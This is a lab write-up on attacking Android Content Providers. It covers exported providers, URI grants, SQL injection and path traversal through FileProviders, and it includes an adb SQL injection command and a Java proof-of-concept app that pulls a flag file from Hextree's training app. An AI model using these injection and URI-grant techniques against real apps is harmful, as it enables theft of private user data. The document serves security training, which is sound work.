


## Pentesting Content Providers


Content Providers are one of Android's built-in ways for apps to share data with other apps. In practice, many of them sit in front of an SQLite database, but they can also expose files, app-specific actions, or custom logic through a `content://` URI.

**Why does this matter?** Because Android apps are normally sandboxed. **App A** should not be able to open **App B's** private database or files directly. A **Content Provider** is one of the official ways an app can intentionally cross that boundary. If the provider is misconfigured or trusts untrusted input, it can accidentally give another app access to data it should never have had.

The main Content Provider methods to review are `query`, `insert`, `update`, and `delete`. These are the normal entry points an outside app uses to read or modify the provider's data. If these methods use user-controlled input unsafely, an attacker may be able to dump records, change rows, or bypass access controls.

**At the manifest level**, the first things to check are:
- The authority, 
- The declared permissions, 
- And whether the provider is exported. 

These tell you where the content or file provider lives, who can reach it, and what protections Android is supposed to apply before the provider code even executes.

When you build an attack or POC, the URI usually looks like this: `content://<authority>/<path>`. *The authority tells Android which provider should handle the request*. *The path tells that provider what to open*, such as a **table**, **file**, or **logical resource**.

> The easiest way to think about it is this: the authority is the provider's address, and the path is the thing you want from that provider. If you know both parts and the protections are weak, you can start talking to the victim app's data through Android's own APIs.

1. **The Checklist: Android Manifest and Code**

- **Exported**: `android:exported="true"` means other apps can usually reach the provider directly. This matters because the attacker does not need code execution inside the victim app. Android itself will route the request to the provider. If it is `false`, the provider is normally not reachable as a direct attack surface, but URI grants and certain app-to-app flows can still expose it indirectly.

- **Permissions**: Check `android:readPermission` and `android:writePermission`. These are the locks on the front door. If they are missing, weak, or only `normal` protection level, almost any installed app may be able to talk to the provider. That becomes a real security issue when the provider sits in front of sensitive data like tokens, notes, account data, flags, or internal files.

- **Authority**: This is the provider's identifier in the manifest, for example `io.hextree.flag30`. The authority is not the vulnerability by itself. It matters because it tells the attacker exactly where to send the request. If they learn the authority from the manifest, decompilation, or logs, they can build the right `content://<authority>/<path>` URI and start testing the provider from `adb`, a PoC app, or a malicious app.

- **Data Storage**: Many providers sit in front of SQLite. This matters because the provider may be the only layer standing between an outside app and data that should stay inside the app sandbox. When reading the code, check whether attacker-controlled values are concatenated into SQL in `query()`, `update()`, or `delete()`. If they are, the attacker may be able to change the query logic and fetch rows they were never supposed to see.

- In Android, `android:grantUriPermissions="true"` *allows a provider to temporarily delegate access to a specific URI to another app*. This is useful for normal sharing, for example giving a camera app temporary access to a file, or giving a PDF viewer access to a generated PDF. The problem starts when the granted URI points to a file or directory the receiving app should never have seen. A classic example is a FileProvider that can resolve paths from the root directory or another overly broad location. In that case, the victim app is effectively lending out its own filesystem privileges.

If an attacker app can position itself as the receiving app, or can trigger a flow where the victim app returns a granted `content://` URI, it can consume that URI through `ContentResolver` and read the file even if the FileProvider is set to `android:exported="false"`. Normally, that setting reduces the attack surface because random apps cannot call the provider directly. But once the victim app hands out a granted URI, Android allows the receiving app to open that specific URI anyway.

For example, imagine the provider is protected by `android:readPermission`. A random app should not be able to query it directly. But if the victim app later sends that same app a granted URI, Android will allow that URI to be opened because the temporary grant overrides the normal direct-access restriction for that one resource.

**The vulnerability**: A common weakness appears when a victim app protects a provider with permissions, but also enables URI grants and then returns or accepts overly broad URIs. In that situation, the attacker does not need direct provider access. They only need a way to obtain or influence a granted URI, and Android will treat that URI as authorized even though the attacker never had the provider's original permission.

2. **Attack Vectors**
- **SQL Injection (SQLi)**: SQL injection is common in providers because many implementations pass attacker-controlled parameters directly into database operations. *Where:* `query()`, `update()`, or `delete()`. This is dangerous because SQL decides which rows get returned or modified. If the attacker can change the SQL logic, they can often turn a narrow query into a full table dump.

Always inspect the 3rd argument in a `.query()` call or the 2nd argument in a `.rawQuery()` call. If those values are built using simple string concatenation (`+`), you likely found the injection point. The provider is mixing user input directly into SQL instead of treating it as data.

- *The Move*: Inject SQL into the `--where` or `--projection` arguments. **Exploit example**: `adb shell "content query --uri content://io.hextree.flag32/flags --where \"1=0) OR name='flag32' --\""` in Hextree's lab.

- **Path Traversal**: *Where:* `openFile()` or `openAssetFile()`. This bug appears when the app expects the caller to stay inside one directory, but the caller can smuggle `../` into the path and walk out of it.

- *The Move*: Use `../` in the URI path to escape the intended directory and read private files, for example `shared_prefs/secrets.xml`. This becomes especially dangerous when a `FileProvider` is configured with a broad path such as `<root-path>` or a wide `external-path`, because the attacker starts with access to a large part of the filesystem and then tries to walk to something sensitive.

- **Hidden Logic (`call()`)**: *Where:* custom methods outside standard CRUD.

- *The Move*: Decompile the app to find custom method names that trigger internal actions. These code paths are easy to miss during review because they are not part of the standard CRUD flow. A developer may protect `query()` carefully but forget that `call()` can still expose privileged behavior such as resetting data, exporting internal files, or returning secrets.

**The goal is to reach the provider path that returns sensitive data or triggers the success condition in `query()`.** A simple question to keep asking is: what input does this provider trust, and what happens if I control it from outside the app?

**Photo Picker:** This is the safe mental model for URI sharing. The picker grants access only to the specific photos the user selected. That is how providers are supposed to work: narrow, per-URI sharing, not broad directory access. If a provider ends up exposing an entire folder tree, it has already moved away from the intended security model.

## Improperly Exposed Directories in the FileProvider

This is where `FileProvider` configuration becomes critical. A `FileProvider` exists so an app can safely share one specific file with another app using a `content://` URI instead of exposing raw file paths. Android's security guidance warns against exposing broad directories because the provider may end up serving files far outside what the developer meant to share.

The worst pattern is using `<root-path>`. It maps to the device filesystem root, so the provider can potentially serve files from almost anywhere the app itself can read. That is a security problem because the victim app usually has access to places the attacker app does not. Even though another app cannot normally open `/data/data/<target-app>/...` directly, it may still be able to trick the target app's `FileProvider` into opening that file on its behalf.

> The file provider with a `<root-path>` configuration will generate URIs like `content://io.hextree.files/root_files/data/data/io.hextree.attacksurface/files/secret.txt`.
>
> If we decode these sections, we can see that this provider can map files from the entire filesystem:
> `content://` is the Content Provider scheme.
> `io.hextree.root` is the authority from the Android Manifest.
> `root_files` is the configuration entry being used.
> `/data/data/io.hextree.attacksurface/files/secret.txt` is the path of the file relative to the configured path, which is mapped to the filesystem root.

That is exactly why the Android documentation recommends avoiding `<root-path>` entirely and sharing only narrow path ranges. If the base path is too broad, even correct-looking sharing code can still expose sensitive files by mistake because the provider can already reach too much of the filesystem before any per-file check happens.

Another risky pattern is using an `external-path` with a broad path like `/sdcard/`. External storage is much less trustworthy for sensitive data, and a wide `external-path` can expose more files than the app author expects. The Android documentation calls this out because anything sensitive placed there is already easier for other apps, users, backups, or malware to reach.

## Flag 34

This example shows how a provider can still become exploitable even when the developer assumes the component is not broadly reachable because it is configured as `android:exported=false` in the manifest. The important question is not just whether the provider is exported, but whether the app can be tricked into returning a URI that points to an unsafe location.

The flow is easier to understand if you break it into steps:

1. The victim activity accepts input from another app.
2. Based on that input, it decides which file to expose through a `content://` URI.
3. The attacker receives that URI and then implements a `ContentResolver` in the exploit app to read the file.

If the provider behind that URI is too broad, the attacker can turn what should have been a harmless file-sharing flow into unauthorized file access.

If the user passes a file name as an intent extra, and that extra contains `flag34.txt`, the app gets that file from the `fileDir` that points to the `data/data/io.hextree/files` directory, writes the flag to `flags/flag34.txt`, and then logs the flag. Otherwise, it returns the `secrets.txt` file that is located in the root directory `data/data/io.hextree`. The file `flag34.txt` is written outside the directory you would expect from `getFilesDir()`, and because the provider has root-level reach, the attacker can traverse to it with `../flag34.txt`. :




**That is the real security issue**: the victim app is accidentally transforming its own private file access into a shareable URI for an untrusted app. Once that happens, the attacker no longer needs direct filesystem access. They only need to read the URI the victim app already gave them.

**Step 1:** I create the exploit without passing the filename string extra, and I can see that the URI passed to the method is `content://io.hextree.files/other_files/secret.txt`.



That first result is useful because it confirms the app is willing to return a content URI to the caller. Once that is established, the next step is to influence the file path behind that URI.

This mirrors the general exploitation pattern from the vulnerability [Brave report](https://hackerone.com/reports/876192). In both cases, the attacker wins by getting the vulnerable app to produce or consume a URI that points to data inside a filesystem area that should never have been broadly shareable in the first place.

After passing the filename extra, I get the `flag34.txt` flag printed in the logs:


```java
package com.njerii.exploitsapp;

import android.content.ComponentName;
import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;

import androidx.activity.EdgeToEdge;
import androidx.activity.result.ActivityResultLauncher;
import androidx.activity.result.contract.ActivityResultContracts;
import androidx.appcompat.app.AppCompatActivity;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;

public class MainActivity extends AppCompatActivity {

    private final ActivityResultLauncher<Intent> flagLauncher = registerForActivityResult(
            new ActivityResultContracts.StartActivityForResult(),
            result -> {
                // Flag34Activity returns RESULT_OK (-1) if no filename is provided, 
                // and RESULT_CANCELED (0) if a filename is provided.
                // We check if data is present regardless of the result code.
                if (result.getData() != null && result.getData().getData() != null) {
                    handleUri(result.getData().getData());
                } else {
                    Log.e("Exploit", "No data returned from activity");
                }
            }
    );

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);

        findViewById(R.id.flag34).setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setComponent(new ComponentName("io.hextree.attacksurface",
                    "io.hextree.attacksurface.activities.Flag34Activity"));
            
            // If you want the flag from secret.txt, launch WITHOUT the "filename" extra.
            // If you want to exploit the file provider for a specific file, use the extra.
            intent.putExtra("filename", "flags/flag34.txt");

            flagLauncher.launch(intent);
        });
    }

    private void handleUri(Uri uri) {
        Log.i("Exploit", "Received Uri: " + uri.toString());
        try (InputStream inputStream = getContentResolver().openInputStream(uri);
             BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream))) {
            
            StringBuilder content = new StringBuilder();
            String line;
            while ((line = reader.readLine()) != null) {
                content.append(line).append("\n");
            }
            Log.i("Exploit", "File Content: " + content.toString());
            
        } catch (IOException e) {
            Log.e("Exploit", "Error reading Uri", e);
        }
    }
}
```
The exploit here demonstrates the same core security problem of providers: As a tester you should ask yourself: **what URI can I make the app hand back to me?**
